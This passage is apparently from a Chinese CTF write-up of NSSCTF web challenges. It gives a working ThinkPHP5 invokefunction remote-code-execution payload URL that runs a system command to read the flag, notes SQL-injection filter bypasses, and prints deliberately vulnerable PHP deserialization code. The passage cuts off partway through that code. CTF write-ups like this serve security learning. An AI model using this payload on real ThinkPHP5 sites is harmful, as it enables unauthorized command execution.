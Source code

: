 ```php
//flag.php
```

![](https://exp10it-1252109039.cos.ap-shanghai.myqcloud.com/img/202210032106724.png)

## ez_rce

查看 robots.txt 发现 /NSS/index.php

![](https://exp10it-1252109039.cos.ap-shanghai.myqcloud.com/img/202210032107363.png)

thinkphp5

参考文章 [https://y4er.com/posts/thinkphp5-rce/](https://y4er.com/posts/thinkphp5-rce/)

随便找一个 payload

```
http://1.14.71.254:28133/NSS/index.php?s=index|think\app/invokefunction&function=call_user_func_array&vars[0]=system&vars[1][0]=cat /nss/ctf/flag/flag
```

![](https://exp10it-1252109039.cos.ap-shanghai.myqcloud.com/img/202210032109282.png)

## ez_sql

报错注入, 过滤了空格和 and, 分别用注释和双写绕过

![](https://exp10it-1252109039.cos.ap-shanghai.myqcloud.com/img/202210040917578.png)

## ez_1zpop

```php
<?php
error_reporting(0);
class dxg
{
   function fmm()
   {
      return "nonono";
   }
}

class lt
{
   public $impo='hi';
   public $md51='weclome';
   public $md52='to NSS';
   function __construct()
   {
      $this->impo = new dxg;
   }
   function __wakeup()
   {
      $this->impo = new dxg;
      return $this->impo->fmm();
   }

   function __toString()
   {
      if (isset($this->impo) && md5($this->md51) == md5($this->md52) && $this->md51 != $this->md52)
         return $this->impo->fmm();
   }
   function __destruct()
```